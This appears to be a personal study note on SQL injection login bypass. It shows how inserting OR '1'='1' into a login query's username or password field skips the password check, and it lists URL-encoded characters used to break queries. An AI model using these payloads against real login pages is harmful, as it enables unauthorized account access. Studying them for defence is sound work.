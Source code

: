 we can inject a new logic element into the query in order to subvert cerain security features 

for example a login page 

a normal login attempt would look like this:

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

we can use an injection by first finding a character that breaks the query and then injecting a new logic to bypass the need for a correct password like this:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

if we dont know the username aswell we can use something like this: 

```sql
SELECT * FROM logins WHERE username='notadmin' or '1'='1' AND password = 'something' or '1'='1;
```
by using -> <span style="color:rgb(255, 0, 0)">something' or '1'='1</span> as the password 

this happens because the AND statement gets evaluated first and later the OR 

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |
